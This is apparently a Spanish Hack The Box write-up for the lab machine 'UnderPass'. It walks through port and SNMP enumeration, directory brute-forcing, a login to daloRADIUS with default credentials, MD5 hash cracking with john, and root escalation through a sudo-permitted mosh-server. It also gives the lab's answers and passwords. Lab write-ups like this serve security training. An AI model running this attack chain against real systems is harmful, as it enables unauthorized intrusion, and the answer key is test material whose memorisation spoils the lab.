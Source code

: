 ```yaml
---
title: Writeup underpass - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - underpass
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina underpass en Hack The Box.
keywords:
  - writeup underpass
  - hack the box underpass
  - resolución máquina underpass
  - underpass hack the box
  - htb underpass
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/UnderPass)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=D0ssizcknNo)
- 🧠 **Explicación resumida**: 

---

#easy #liunx #nmap #ping #ssh #abusobinariosmosh-server #sudo-l #john #hasid #tratamientotty #whatweb #wappalyzer #snmp #snmpwalk #gobuster 

------
# Guided Mode

1)¿Cuántos puertos TCP abiertos escuchan en el paso subterráneo?
	2

2)¿Qué puerto UDP en los 100 puertos NMAP Top 100 está abierto en el paso subterráneo?
	161

3)¿Qué dirección de correo electrónico hace la lista de servidores subterráneos como correo electrónico de contacto?
	steve@underpass.htb

4)¿Cuál es el nombre de la aplicación alojada en el servidor web de paso subterráneo?
	daloRADIUS

5)¿Cuál es la ruta relativa en el servidor web para la página de inicio de sesión del operador para Daloradius?
	/daloradius/app/operators/login.php

6)¿Cuál es la contraseña para el usuario del administrador en la aplicación Daloradius?
	radius

7)¿Cuál es la contraseña de texto BORRAR del usuario de SVCMOSH en un paso subterráneo?
	underwaterfriends

*La pregunta anterior es la flag de user.txt*
9)¿Cuál es la ruta completa del comando que el usuario de SVCMOSH puede ejecutar como cualquier usuario?
	/usr/bin/mosh-server

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.11.48
nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.10.11.48 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.10.11.48 -oN targetTCP
nmap -sU --top-ports 200 -n -Pn 10.10.11.48 -oN targetUDP
nmap -sU -sCV -p161 10.10.11.48 -oN udp-scan
```

![[UnderPass1.png]]

![[UnderPass2.png]]

![[UnderPass4.png]]

![[UnderPass19.png]]

*TTL:* Maquina Linux
*Puertos TCP:*
	`22` [[ssh]]
	`80` HTTP
*Puertos UDP:*
	`161` [[snmpget]]

*Datos relevantes:*
	Nos informa que esta corriendo la version 1 y la version 3. ``SNMPv1 server; net-snmp SNMPv3 server (public)``


--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.11.48/
```

![[UnderPass6.png]]

![[UnderPass5.png]]

No nos dio ninguna informacion relevante

----------
# Dumpeo de datos con [[snmpwalk]]

```shell
snmpwalk -v1 -c public 10.10.11.48
```

![[UnderPass18.png]]
Nos dice que esta corriendo un servidor daloradius

----
# [[Gobuster]]
#### Aclaracion: En los diccionarios que usamos siempre de Seclists no encontre la palabra daloradius. Asi que buscando en internet encontramos este directorio */daloradius*

```shell
gobuster dir -u http://10.10.11.48/daloradius -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 40
```
![[UnderPass17.png]]

Encontramos el directorio */app*
![[Underpass22.png]]
Nos da un forbidden asi que vamos a seguir enumerando este directorio

```shell
gobuster dir -u http://10.10.11.48/daloradius/app -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 40 .x php,html,txt,bak,swp
```

![[UnderPass16.png]]
Encontramos el directorio http://10.10.11.48/daloradius/app/operators y nos redirige a  http://10.10.11.48/daloradius/app/operators/login.php que es un panel de logeo de administradores, y el otro de /users es para usuarios normales
![[UnderPass15.png]]
Buscando en internet encontramos las default credentials
![[UnderPass14.png]]
administrator:radius
Las credenciales son validas y ya nos pudimos logear



## Enumeracion de la pagina web

Buscando otros usuarios registrados encontramos
![[Underpass24.png]]
svcMosh:412DD4759978ACFCC81DEAB01B382403


## Crakeamos la contraseña
La contraseña pase por [[hashid]] con el comando `hashid 412DD4759978ACFCC81DEAB01B382403` y nos sale que puede ser MD5
![[UnderPass10.png]]

Asi que con [[john]] usamos el comando `john test.txt -w=/usr/share/wordlists/rockyou.txt`
![[UnderPass11.png]]

y nos dio un error de que tnemos que especificar el formato asi que cambiamos a `john test.txt --format=Raw-MD5 -w=/usr/share/wordlists/rockyou.txt`
![[UnderPass12.png]]
Nos da como resultado la contraseña: *underwaterfriends*


### Conexion por [[ssh]] al usuario *svcMosh*
```shell
ssh svcMosh@10.10.11.48 -p 22
```

Contraseña que vamos a usar para logearnos: *underwaterfriends*

![[UnderPass9.png]]

------

# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios con [[Abuso de Sudo]] del [[Binario mosh-server]]

```shell
sudo -l
```

![[UnderPass8.png]]
Encontramos que podemos ejecutar el binario `/usr/bin/mosh-server` como cualquier usuario sin proporcionar contraseña. Y nos vamos a abusar de esto ejecutandolo como root 

Viendo este [articulo](https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html)

![[Underpass21.png]]
Si ejecutamos la instruccion `mosh --server="sudo /usr/bin/mosh-server" localhost` 

![[Underpass23.png]]

Ganamos acceso como el usuario root y ya podemos catear las flags

![[UnderPass7.png]]

------
# Notas

Al ver el apache recién instalado en el codigo fuente dice `<!-- Modified from the Debian original for Ubuntu Last updated: 2022-03-22 See: https://launchpad.net/bugs/1966004 -->` lo que es totalmente normal en un apache sin modificaciones



Cuando estaba logeado como admin en la pagina de daloradius encontre estas credenciales que no las usamos

![[UnderPass13.png]]
steve:testing123